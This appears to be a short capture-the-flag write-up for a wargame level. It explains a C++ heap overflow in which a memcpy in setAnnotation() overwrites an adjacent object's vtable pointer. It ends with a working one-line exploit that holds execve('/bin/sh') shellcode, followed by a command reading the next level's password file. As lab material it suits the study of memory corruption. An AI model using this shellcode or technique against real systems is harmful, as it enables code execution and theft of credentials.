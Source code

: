 # Walkthrough

## Disassembling the executable 

see source.cpp


## Analysis

In the main, they allocate two objects from the N class. They copy av[1] into the first object's buffer and then call a member function.

Since, the two objects are adjacent in memory we exploit the memcpy called in setAnnotation() on the first object to rewrite the address of the array of member functions to the second object.

In the N class, the first function is the operator+() which is nice because that function is called later in the main().


We hypothesized that when the operator+ is called, it will in fact call our payload which jump into our shellcode.

 
```
./level9 $(python -c "print('\x10\xa0\x04\x08' + '\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80' + 'A' * 80 + '\x0c\xa0\x04\x08\x00')")
$ cat /home/user/bonus0/.pass     

```
